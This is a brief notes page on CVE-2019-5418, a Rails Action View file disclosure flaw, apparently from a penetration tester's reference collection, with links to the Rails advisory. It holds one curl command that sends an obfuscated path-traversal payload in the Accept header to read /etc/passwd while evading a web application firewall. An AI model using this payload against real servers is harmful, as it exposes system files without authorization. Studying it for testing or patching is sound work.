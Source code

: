 # CVE-2019-5418 - Action View File Content Disclosure

**Application:** Ruby

## Misc

Bypass WAF when exploiting ? curl -H 'Accept: ../../../../../../e*c/p*s*d{{' http://server/...

  * https://twitter.com/PentesterLab/status/1111398659306876929

## Resources

  * https://weblog.rubyonrails.org/2019/3/13/Rails-4-2-5-1-5-1-6-2-have-been-released/
  * https://groups.google.com/forum/#!topic/rubyonrails-security/pFRKI96Sm8Q
